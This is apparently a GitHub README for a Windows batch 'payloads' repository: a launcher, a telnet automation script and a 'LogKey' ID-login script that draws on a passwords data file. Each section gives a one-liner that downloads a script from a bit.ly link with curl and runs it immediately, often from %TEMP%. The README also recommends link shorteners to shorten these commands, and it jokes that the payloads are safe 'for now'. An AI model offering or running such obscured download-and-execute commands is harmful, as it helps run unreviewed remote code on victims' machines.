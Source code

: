 # Payloads
A collection of my custom safe (...for now hehe) payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.



## Batchfiles
Here are the individual batchfiles and instructions on how to use them.
> **Warning** <br>
> It is required to write the script into a file with different name **aside from r.bat** since r.bat is the default name that PLs.bat uses to name a payload it downloaded. If you want to use r.bat as the name of your manually downloaded payload, you may fork the repository and change the configuration variables inside PLs.bat.<br>
> For scripts that include `cd %temp% &` in the command, you may change **%temp%** to a different folder of your choice. Be sure to select a directory and make sure that the directory is accessible to avoid errors when running the script.



### PLs.bat
[**PLs**](https://github.com/Jed556/Payloads/blob/main/PLs.bat) is the boss. This is the main launcher and download manager for all payloads.<br>

#### Download and Run PLs.bat
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo pls.bat bit.ly/PLs-bat & pls
```

#### Arguments
Without arguments, or with missing arguments, the script will prompt you for the payload to run and the arguments to pass to it. The following table provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**pls 1**|Specifies the **index** of the payload to run (default: none).|
|2|**pls 2 1**|Enables (**1**) or disables (**0**) debug mode (default: 0). This option will be passed to the specified payload.|
|*|**pls 3 0 2**|Arguments starting from index 3 are passed to the specified payload. Check the argument list for the specific payload you want to run, and add 1 to the indexes to understand the indexing better.|



### TelKit
[**Telkit**](https://github.com/Jed556/Payloads/blob/main/TelKit/telkit.bat) is a custom payload for telnet run automations. <br>

#### Download and Run TelKit
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c cd %temp% & curl -Lo tk.bat bit.ly/PLs-tk & tk
```

#### Arguments
When arguments are missing or not provided, the script will prompt you for the telnet service to connect to. Refer to the table below for sample commands that demonstrate how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**tk 0**|Enable (**1**) or disable (**0**) debug mode (default:0)|
|2|**tk 1 1**|Specifies the index of the telnet service to connect to (default: none).|



### LogKey
[**LogKey**](https://github.com/Jed556/Payloads/blob/main/LogKey/logkey.bat) is a custom payload for id login. <br>

**Download and Run LogKey**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo lk.bat bit.ly/PLs-lk & lk
```

#### Arguments
If some arguments are not supplied, the script will utilize the default values specified in the script configuration variables. The table below provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**lk 1**|Enable (**1**) or disable (**0**) debug mode (default:0).|
|2|**lk 0 8**|Specifies the length of the id (default: 8).|
|3|**lk 0 8 data/database.txt**|Specifies the URL or PATH to get the data from (default: [This Repository](https://raw.githubusercontent.com/Jed556/Payloads/main/LogKey/data.logkey)).|
|4|**lk 0 8 data/database.txt passwords.txt**|Specifies the name of the data file (default: file name with extension from URL).|
|5|**lk 0 8 data/database.txt passwords.txt 1**|Enable (**1**) or disable (**0**) data preservation (default:0). This prevents from the data copied (**passwords.txt**) from being deleted after use|



> **Note** <br>
> You may add `cd %temp% &` between `cmd /c` and `curl` for the files without a specific **cd** command to download and run inside Windows **%TEMP%** (temporary) folder.<br>
> You may change the file name *(ex. ***pls.bat***)* to a different name of your choice. Be sure to change the name of the file in the command *(& ***pls***)* as well.<br>
> You can adjust the individual configuration variables inside each script to your liking. Be sure to enter the correct values for the variables to avoid errors when running the script.



## Shortcuts
You may use link shorteners to shorten the commands. Here are some great link shorteners that you may use:<br>
- **Bitly**: [bitly.com](https://bitly.com/)<br>
- **Tinyurl**: [tinyurl.com](https://tinyurl.com/)<br>
- **Rebrandly**: [rebrand.ly](https://rebrand.ly/)<br>
- **Is.gd**: [is.gd](https://is.gd/)<br>
> I recommend using [**Bitly**](https://bitly.com/) or [**Tinyurl**](https://tinyurl.com/) since they are the only ones that I have tested so far. <br>